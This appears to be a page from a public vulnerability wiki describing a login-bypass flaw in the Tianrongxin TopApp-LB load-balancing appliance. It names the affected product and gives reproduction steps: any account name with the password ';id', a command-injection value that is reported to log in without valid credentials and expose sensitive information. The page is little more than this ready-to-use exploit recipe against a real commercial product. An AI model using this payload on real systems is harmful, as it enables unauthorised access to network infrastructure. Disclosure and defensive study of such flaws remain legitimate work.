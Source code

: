 # Tianrongxin TopApp-LB Login to bypass vulnerabilities

## Vulnerability Description

Tianrongxin Load Balancing TopApp-LB system can log in directly without password to view sensitive information

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tianrongxin Load Balancing TopApp-LB</span>

## Network surveying and mapping



## Vulnerability reappears

Enter the account number: `Arbitrary account` Password: `;id`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/trx-1.png)



Log in successfully

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/trx-2.png)